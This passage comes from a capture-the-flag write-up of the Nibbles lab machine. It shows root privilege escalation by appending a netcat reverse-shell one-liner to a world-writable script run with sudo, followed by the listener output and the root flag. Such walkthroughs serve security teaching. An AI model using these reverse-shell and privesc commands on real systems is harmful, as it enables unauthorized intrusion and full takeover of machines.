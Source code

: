 But it doesn’t really matter, since the script is world-writable:

    
    
    nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
    total 4
    -rwxrwxrwx 1 nibbler nibbler 80 Jun 24 07:27 monitor.sh
    

In fact, if you are on the free, you’re very likely to find this file
completely overwritten with other people’s privesc.

Rather than bluntly overwriting the script, we’ll append our shell to the end:

    
    
    nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
    < /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
    nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
    
    
    
    root@kali# nc -lnvp 8083
    listening on [any] 8083 ...
    connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
    # id
    uid=0(root) gid=0(root) groups=0(root)
    

### root.txt

Now it’s easy to grab the root flag:

    
    
    # cd /root
    # wc -c root.txt
    33 root.txt
    # cat root.txt
    b6d745c0...
    

[](/2018/06/30/htb-nibbles.html)

